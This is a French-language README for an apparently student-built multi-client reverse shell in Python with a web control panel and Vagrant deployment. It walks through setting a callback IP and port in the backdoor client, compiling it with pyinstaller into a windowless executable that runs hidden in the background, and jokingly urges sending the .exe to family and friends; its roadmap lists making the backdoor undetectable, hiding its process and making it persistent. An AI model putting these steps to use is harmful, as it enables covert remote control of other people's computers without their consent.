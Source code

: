 # Reverse-shell en interface Web

_Dans le cadre du projet 2020 UF infrastucture & Système d'information, nous avons réalisé un reverse shell en python avec un contrôle depuis une interface web, ainsi qu'un déploiement à l'aide de vagrant._

_Réalisé par CEBERIO Pierre **[@PierreYnov](https://github.com/PierreYnov)** et USEREAU Lucas **[@Saluc](https://github.com/Saluc00)** ._

![img](https://github.com/Saluc00/UF-Infra-B2/blob/master/Doc/img1.png)

## Sommaire

- [Documentation d'installation](##-documentation-dinstallation)
  - [0. Prérequis](###0-prérequis)
  - [I. Git clone](###i-git-clone)
  - [II. Vagrant](###ii-vagrant)
- [Documentation d'utilisation](##-documentation-dutilisation)
  - [Serveur](###-serveur)
  - [Client](###-client)
- [Pour aller plus loin](##-pour-aller-plus-loin)
- [Crédits](##-crédits)

## Documentation d'installation

_Manuel d'installation étape par étape du reverse shell_

### 0. Prérequis

Le projet demande trois prérequis, avoir **vagrant**, **virtualbox** et le module python **pyinstaller** d'installé sur son PC.

Disponible [ici](https://www.vagrantup.com/downloads.html) !

### I. Git clone

Cloner le repository avec la commande: `git clone https://github.com/Saluc00/UF-Infra-B2.git`.

### II. Vagrant

Suivant le port que vous souhaitez utiliser, changez le port dans le _VagrantFile_ du côté HOST !! **Important** !!

Placez-vous dans le fichier vagrant et faites la commande: `vagrant up`.

_Attendre la fin de l'initialisation du VagrantFile.._

Une fois l'installation du _VagrantFile_ ok, faites le commande `vagrant ssh`.

Pour lancer le serveur python, il se trouve dans `UF-Infra-B2\Multi-Client-Reverse-Shell`.

La commande pour UP le serveur: `python3 Listener.py`

## Documentation d'utilisation

### Serveur

Vous devez tout d'abord ouvrir un port sur votre serveur afin d'écouter dessus et permettre aux pc infectés de s'y connecter. La manière d'ouvrir un port diffère en fonction de votre OS, vous pouvez vous référer à ces liens pour Windows, OSX et Ubuntu :

- https://fr.wikihow.com/ouvrir-des-ports

- https://guide.ubuntu-fr.org/server/firewall.html

Une fois le port que vous avez choisi est ouvert, rendez vous dans le fichier Listener.py et allez à la ligne 341 remplacer le port 9999 par le votre.

Le serveur est maintenant prêt, il suffit de lancer l'écoute et attendre que les clients se connectent :

```
python3 Listener.py
```

La commande `list` permet de lister les clients actuellement connectés, il suffit ensuite de sélectionner le pc sur lequel on veut intervenir avec la commande `select` suivi de l'index du pc.

![img](https://github.com/Saluc00/UF-Infra-B2/blob/master/Doc/img2.png)

Pour quitter le shell sur le pc où l'on est, il suffit d'écrire `quit`.

Pour quitter l'interface Web du Reverse-Shell, il suffit de taper `exit`.

La commande `help` vous donnera les informations détaillés sur chaque commande.

La commande `upload` permet d'envoyer un fichier qu'on a sur le serveur, sur le client ( la commande `download` est encore en réalisation, elle fera l'inverse).

### Client

Afin d'être fonctionnel, il est nécessaire côté client (ReverseBackdoor.py) d'adresser l'IP de votre hôte (qui vous permettra de contrôler les ordinateurs ) à la ligne 164 (listenerIP) ainsi que de donner le port sur lequel écoute votre hôte à la ligne 165 (listenerPort).

_à la ligne 164 et 165:_

```python
  listenerIP = "77.202.221.174" # Ici mettre votre IP
  listenerPort = 9999 # Ici le port que vous avez mis en host dans le fichier vagrant
```

Pour compiler le ReverseBackdoor.py, vous aurez besoin de pyinstaller :

```
pip install pyinstaller
```

Tapez ensuite :

```
pyinstaller --onefile --windowed ReverseBackdoor.py
```

afin d'avoir le fichier ReverseBackdoor.exe en un seul fichier (sans librairie) et qui n'affiche aucune console quand vous l'exécutez mais qui reste en background.

Puis envoyer le fichier .exe créé à toutes votre famille et amis !

## Pour aller plus loin

- Régler les problèmes d'encodage
- Fix la commande `download`
- Avoir l'interface Web SSH sur notre serveur ( dépendance actuel de https://app.shellngn.com/ )
- Automatisation des tâches sur tout les ordinateurs qu'on contrôle ( pas en interactif à la mano, maybe tmux ? )
- FUD la backdoorReverseShell, cacher le processus et le rendre permanent.
- To be continued ...

## Crédits

- Shell python utilisé: https://github.com/mustafadalga/Multi-Client-Reverse-Shell
- Machine virtuelle utilisé sur le serveur d'AFN: https://awayfrom.network/
- Vagrant: https://www.vagrantup.com/
- VirtualBox: https://www.virtualbox.org/
- Python: https://www.python.org/

